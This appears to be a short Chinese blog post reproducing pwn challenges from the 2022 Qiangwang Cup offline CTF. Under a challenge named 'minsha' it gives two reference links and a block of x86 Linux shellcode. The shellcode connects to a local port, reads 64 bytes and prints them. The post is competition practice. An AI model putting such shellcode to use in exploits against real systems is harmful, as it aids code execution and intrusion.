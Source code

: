 ```yaml
---
title: 2022 强网杯 线下赛 复现
date: 2023-09-26 07:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=72/
pin: false
published:
---
```






## minsha

https://cloud.tencent.com/developer/article/2105254

https://blog.csdn.net/m0_37947204/article/details/80489431

```assembly
global _start
_start:

        ;// socket(AF_INET,SOCK_STREAM,IPPROTO_IP)
        xor ebx,ebx
        mul ebx
        inc ebx ; //socket
        push edx
        push ebx
        push 0x2
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;// connet(socket,(struct sockaddr *)&serv_addr,sizeof(struct sockaddr_in))
        push 0x100007f
        push 0xcdea0002
        mov ecx,esp
        push 0x10
        push ecx
        push eax
        mov bl,3
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;//read(socket,esp,64)
        pop ebx
        mov ecx, esp
        mov dl, 64
        mov al,3
        int 0x80

        ;//write(1, esp, 64)
        xor ebx, ebx
        mov bl, 1
        mov al, 4
        int 0x80

        xor ebx,ebx
        mov al,1
        int 0x80
```



